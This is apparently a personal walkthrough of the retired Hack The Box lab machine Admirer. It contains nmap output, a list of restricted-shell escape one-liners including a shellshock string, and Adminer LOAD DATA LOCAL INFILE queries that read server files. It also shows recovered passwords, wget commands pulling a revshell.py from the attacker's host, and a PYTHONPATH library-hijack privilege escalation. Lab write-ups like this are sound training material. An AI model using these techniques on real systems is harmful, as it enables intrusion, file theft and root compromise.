 ```yaml
---
tags:
  - Linux
  - HTB
  - Retired
creation date: 2024-08-17
Date Completed: 
CVEs: CVE-2021-43008
URL: https://app.hackthebox.com/machines/Admirer
New Tools: AdminerRead
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer

```

### ffuf (Directories/Subdomain/Files)

![[Pasted image 20240824085435.png]]


![[Pasted image 20240824090945.png]]

![[Pasted image 20240824090914.png]]


![[Pasted image 20240824090856.png]]

### Restricted Shell Outbreak
1)From ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
2)From ssh2 > ssh username@IP -t "bash --noprofile"
3)From ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
4)From ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
127.0.0.1 (SUID)
5)From git > git help status > you can run it then !/bin/bash
6)From pico > pico -s "/bin/bash" then you can write /bin/bash and
then CTRL + T
7)From zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c
/bin/bash"
8)From tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-
action=exec=/bin/bash


![[Pasted image 20240824093335.png]]
![[Pasted image 20240824093351.png]]
ftpuser:%n?4Wz}R$tTF7

**Note:** Never stop Fuzzing

![[Pasted image 20240824111105.png]]
```sql
LOAD DATA local INFILE 'adminer.php' INTO TABLE loot fields TERMINATED BY "\n";
```

```sql
SELECT * FROM loot
```

```sql
LOAD DATA local INFILE '../../../../../../../etc/hosts' INTO TABLE loot fields TERMINATED BY "\n";
```

```sql
LOAD DATA local INFILE '/var/www/html/index.php' INTO TABLE loot fields TERMINATED BY "\n";
```

![[Pasted image 20240824112734.png]]


![[Pasted image 20240824112715.png]]
&<h5b~yK3F#{PaPB&dA}{H>

```
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
```

```
wget http://10.10.15.64:8000/revshell.py
```

```
wget http://10.10.15.64:8000/random.py
```

/opt/scripts/backup.py
```
#!/usr/bin/python3
# /opt/scripts/backup.py
from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

create a malicious payload named shutil.py
then run with a listener:
```
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
```

reference: https://medium.com/analytics-vidhya/how-to-create-a-python-library-7d5aea80cc3f
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv